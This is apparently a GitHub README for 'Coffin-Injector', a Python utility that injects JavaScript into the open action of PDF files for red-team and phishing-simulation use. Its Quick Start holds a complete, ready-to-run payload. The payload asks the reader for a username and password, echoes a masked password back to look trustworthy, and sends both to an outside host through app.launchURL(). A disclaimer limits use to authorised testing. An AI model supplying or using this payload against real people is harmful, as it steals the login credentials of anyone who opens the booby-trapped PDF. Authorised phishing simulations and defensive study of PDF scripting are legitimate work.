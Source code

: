 # Coffin-Injector

A simple Python utility for injecting JavaScript payloads into PDF files for use in red team assessments, phishing simulations, or client-side testing.

## ✨ Features

- Injects custom JavaScript payloads into the `/OpenAction` of a PDF file
- Allows full control over the JavaScript logic (e.g., alerts, credential prompts, redirects)
- Maintains original PDF structure and readability

## ⚙ Requirements

- Python 3.7+
- `PyPDF2`

## 🚀 Quick Start

### Step 1: Set up a Virtual Environment

```bash
python3 -m venv venv
source venv/bin/activate
```

### Step 2: Install Dependencies

```bash
pip install PyPDF2
```

### Step 3: Run Coffin-Injector

```bash
python3 coffin-injector.py -i Resume.pdf -o poc.pdf -p 'var u=app.response("This document requires login to view.\rPlease enter your username:");var p=app.response("Please enter your password:","Password","",true);var mask=p.length>2?p[0]+"*".repeat(p.length-2)+p[p.length-1]:p;app.alert("This PDF has interactive features and should be opened in Adobe Acrobat for full compatibility.\r\rLogin:\rUsername: "+u+"\rPassword: "+mask);app.launchURL("https://example.com/?u="+escape(u)+"&p="+escape(p));'
```

### Explanation of Payload

This example payload prompts the user for their username and password using `app.response()` (an Acrobat JavaScript method). The password is masked and then displayed back to the user in an alert to appear more trustworthy. Finally, the payload sends the credentials via `app.launchURL()` to a specified server.

> **Note**: Basic payloads using `app.alert()` and `app.response()` have been tested and are functional in Chromium-based and Firefox browsers (native PDF viewer). However, more advanced functionality such as `app.launchURL()` is only supported and tested in Adobe Acrobat.

For a full list of supported JavaScript functions in PDF files, see Adobe’s official documentation:
[https://opensource.adobe.com/dc-acrobat-sdk-docs/library/jsapiref/index.html](https://opensource.adobe.com/dc-acrobat-sdk-docs/library/jsapiref/index.html)

## 📁 Arguments

| Argument          | Description                       |
| ----------------- | --------------------------------- |
| `-i`, `--input`   | Path to the input PDF file        |
| `-o`, `--output`  | Path for the output (patched) PDF |
| `-p`, `--payload` | JavaScript payload to inject      |

## 📁 Default Payload

If no payload is supplied, the default behaviour is to inject:

```javascript
app.alert("PDF viewer allows XSS");
```

## 📝 License

This project is licensed under the [MIT License](LICENSE).

---

**Disclaimer:** For educational and authorised security testing purposes only.

